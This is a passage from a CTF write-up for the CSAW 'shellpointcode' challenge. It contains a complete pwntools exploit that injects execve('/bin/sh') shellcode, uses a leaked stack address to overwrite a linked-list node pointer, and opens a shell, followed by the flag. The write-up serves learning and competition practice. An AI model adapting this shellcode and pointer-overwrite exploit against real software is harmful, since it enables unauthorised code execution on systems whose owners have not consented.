 ```bash
0x000055d7207d08ee in ?? ()
```

execve的汇编可以参考http://spd.dropsec.xyz/2017/02/20/%E4%BB%8E%E6%B1%87%E7%BC%96%E8%A7%92%E5%BA%A6%E5%88%86%E6%9E%90execve%E5%87%BD%E6%95%B0/

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./shellpointcode')
#n = remote('pwn.chal.csaw.io',9005)
shellcode ="""
    mov rdi, rsp      /* call execve('rsp',0,0) rsp->'/bin/sh\0' */
    push 0x3b         /* sys_execve */
    pop rax
    xor esi,esi
    syscall
"""
#print len(asm(shellcode))
#raw_input()
n.sendline(asm(shellcode))
sleep(0.1)
n.sendline('')
n.recvuntil("node.next: ")
stack = int(n.recvuntil('\n'),16)
#gdb.attach(n)
node_2 = stack + 0x28
n.sendline('a'*11 + p64(node_2) + '/bin/sh\0')
n.interactive()
```

FLAG

```
flag{NONONODE_YOU_WRECKED_BRO}
```
